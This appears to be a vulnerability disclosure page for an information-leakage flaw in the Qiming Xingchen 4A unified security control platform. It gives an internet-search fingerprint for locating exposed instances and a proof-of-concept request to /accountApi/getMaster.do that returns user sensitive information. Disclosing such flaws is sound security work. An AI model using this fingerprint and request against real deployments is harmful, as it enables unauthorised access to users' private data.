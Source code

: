 # Qimingxingchen 4A unified security control platform getMaster.do information leakage vulnerability

## Vulnerability Description

Qiming Xingchen 4A unified security control platform getMaster.do interface has information leakage vulnerabilities. User sensitive information can be obtained by sending specific request packets.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Qimingxingchen 4A unified security control platform</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">web.body="cas/css/ace-part2.min.css"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691987645140-60c2204f-fdd2-4ca4-b8ab-0b890ae4a9cc.png)

Verify POC

```http
/accountApi/getMaster.do
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20230814124146987.png)